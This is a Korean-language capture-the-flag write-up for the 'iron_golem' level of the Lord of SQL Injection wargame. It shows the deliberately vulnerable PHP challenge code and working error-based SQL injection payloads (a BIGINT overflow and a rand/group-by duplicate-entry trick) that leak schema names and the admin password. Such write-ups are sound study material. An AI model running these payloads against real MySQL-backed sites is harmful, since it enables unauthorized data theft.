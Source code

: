 # **Iron_golem**
## 1. 문제의도
에러를 통한 blind injection  
또는 Error based SQLi 알기(?)

----
## 2. 코드
```php
  <?php
    include "./config.php";
    login_chk();
    dbconnect();

    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");

    if(preg_match('/sleep|benchmark/i', $_GET[pw])) exit("HeHe");

    $query = "select id from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
    $result = @mysql_fetch_array(mysql_query($query));

    if(mysql_error()) exit(mysql_error());

    echo "<hr>query : <strong>{$query}</strong><hr><br>";

    $_GET[pw] = addslashes($_GET[pw]);
    $query = "select pw from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
    $result = @mysql_fetch_array(mysql_query($query));

    if(($result['pw']) && ($result['pw'] == $_GET['pw']))
      solve("iron_golem");
    highlight_file(__FILE__);
  ?>
```
----

### 1. 통과 조건

pw를 알아내야한다. 하지만 Hello admin 같은 건 띄워주지 않고 error를 띄워준다.  
에러를 통해서 해당 값을 얻어내자

----
## 3. Solution

나는 BIGINT Error 를 사용해서 진행하기로 했었다.
물론 그 외에도 double의 최대 크기등을 이용한 Error를 이용해도 되고  
Subquery Error을 이용해도 되고 에러는 참 많다,, (Error Based Blind SQLi)

```SQL
select(select 1 union select 2)
ERROR 1242 (21000): Subquery returns more than 1 row
```

```SQL
select 1 order by 2
ERROR 1054 (42S22): Unknown column '2' in 'order clause'
```

### My Answers :

아직 나는 BIGINT에 익숙하지 않은 것 같다,,

```SQL
> ' or ~(concat("",concat("",pw)))+1#
BIGINT UNSIGNED value is out of range in '(~(concat(`los`.`prob_iron_golem`.`pw`)) + 1)'
```

덕분에 db 이름이랑 테이블명, column은 잘 본 것 같다 (근데 어디 쓰지 저 값들을,,)  

```SQL
> ' or (select concat(ceil(rand(0)*2),pw) as x from (select 1 union select 2 union select 3)t group by x having min(0))#
Duplicate entry '2!!!!' for key ''
```

그래서 ceil(rand(0)*2) 값인 2 빼고 !!!!을 입력하니 클리어~~!!

### Why floor(rand(0)*2) cause error
floor(rand(0)*2) 가 에러를 유발 하기는 하지만 에러를 일으키는 정확한 요소는 having min(0) 부분인 것 같다. 중복되는 부분이 있기 때문에 에러를 반환한다. 그리고 floor(rand(0)*2) 는 랜덤값을 반환하는데 *2 로 인해 0이 되기도 하고 1이 되기도 하는데 직접 해보니 대강 0 1 1 패턴으로 나오는 것 같다.
1이 있는데 또 1이 있는, Duplicate 가 되어버리니 에러를 반환하는 것이다.  

**Lastly, There can be many answers**  

**[Go to see other solutions](https://github.com/moreal/WriteUp/blob/master/Wargame/Lord%20of%20SQL%20Injection/00.%20ReadMe.md)**

